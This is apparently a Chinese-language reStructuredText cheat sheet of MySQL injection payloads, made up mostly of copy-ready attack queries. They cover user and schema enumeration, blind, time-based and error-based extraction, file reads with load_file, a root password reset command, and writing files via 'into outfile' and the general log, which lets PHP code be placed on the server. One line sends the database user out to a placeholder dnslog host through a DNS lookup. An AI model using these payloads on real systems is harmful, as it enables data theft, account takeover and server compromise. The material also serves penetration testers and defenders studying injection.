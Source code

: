 MySQL Payload
========================================

常见Payload
----------------------------------------
- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT 1 # comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x9`` ``0xa-0xd`` ``0x20`` ``0xa0``
- Current User
    - ``SELECT user()``
    - ``SELECT system_user()``
- List User
    - ``SELECT user FROM mysql.user``
- Current Database
    - ``SELECT database()``
- List Database
    - ``SELECT schema_name FROM information_schema.schemata``
- List Tables
    - ``SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- List Columns
    - ``SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'``
- If
    - ``SELECT if(1=1,'foo','bar');`` return 'foo'
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT 0x414243`` => return ``ABC``
- Delay
    - ``sleep(1)``
    - ``SELECT BENCHMARK(1000000,MD5('A'))``
- Read File
    - ``select @@datadir``
    - ``select load_file('databasename/tablename.MYD')``
- Blind
    - ``ascii(substring(str,pos,length)) & 32 = 1``
- Error Based
    - ``select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;``
    - ``select count(*) from (select 1 union select null union select !1)x group by concat((select table_name from information_schema.tables limit 1),floor(rand(0)*2))``
- Change Password
    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
- DNS log
    - ``select load_file(concat('\\\\',user(),'.your-dnslog.com'));``
    - `dnslog <http://dnslog.cn/>`_

**注意：mysql 5.0 之后才有** ``infomation_schema`` **这个表**

报错注入常见函数
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- extractvalue
- updatexml
- GeometryCollection
- linestring
- multilinestring
- multipoint
- multipolygon
- polygon
- exp

写文件
----------------------------------------

写文件前提
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- root 权限
- 知晓文件绝对路径
- 写入的路径存在写入权限
- secure_file_priv 允许向对应位置写入
- ``select count(file_priv) from mysql.user``

基于 into 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    union select 1,1,1 into outfile '/tmp/demo.txt'
    union select 1,1,1 into dumpfile '/tmp/demo.txt'

dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏

基于 log 写文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.. code-block:: sql

    show variables like '%general%';
    set global general_log = on;
    set global general_log_file = '/path/to/file';
    select '<?php var_dump("test");?>';
    set global general_log_file = '/original/path';
    set global general_log = off;
